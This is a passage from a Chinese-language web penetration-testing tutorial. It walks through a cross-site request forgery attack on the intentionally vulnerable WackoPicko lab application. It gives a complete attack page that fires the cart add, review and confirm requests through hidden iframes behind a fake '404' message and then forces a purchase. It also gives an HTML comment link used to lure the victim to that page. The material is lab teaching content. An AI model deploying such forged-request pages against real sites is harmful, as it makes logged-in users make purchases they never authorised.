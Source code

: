 0.  之后，创建 HTML 文件，叫做`/var/www/html/wackopurchase.html`，带有如下内容：

    ```html
    <html> 
    <head></head> 
    <body onLoad='window.location="http://192.168.56.102/ WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
    <h1>Error 404: Not found</h1> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/action. php?action=add&picid=16"> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/review.php" > 
    <iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"> 
    </iframe> 
    </iframe> 
    </iframe> 
    </body>
    ```
    
    这个代码会我们的商品的发送`add`、`review`和`confirm`请求给 WackoPicko ，之后展示 404 页面给用户，当它加载完成后，它会重定向到购买操作，之后在一秒后关闭窗口。
    
1.  现在以`v_user`登录，上传图片并登出。

2.  作为攻击者，我们需要确保用户访问我们的恶意站点，同时仍然保持登录 WackoPicko。以`attacker`登录之后，访问`Recent`并选择属于`v_user`的图片（刚刚上传的那个）。

3.  我们需要在图片上输入下列评论。

    ```html
    This image looks a lot like <a href="http://192.168.56.1/ wackopurchase.html" target="_blank">this</a>
    ```
    
    > 译者注：这一步的前提是页面上存在 XSS，没有的话利用社会工程直接发送链接也是可行的。
    
4.  点击`Preview`之后`Create`。

    ![](img/7-6-4.jpg)
    
    你可以看到，评论中允许 HTML 代码，而且当`v_user`点击链接是，我们的恶意页面会在新窗口打开。
    
5.  登出并以`v_user`登录。

6.  访问`Home`并点击` Your Purchased Pics`，这里应该没有攻击者的图片。

7.  再次访问`Home`，之后访问` Your Uploaded Pics`。

8.  选项带有攻击者评论的图片。

9.  点击评论中的链接。

    ![](img/7-6-5.jpg)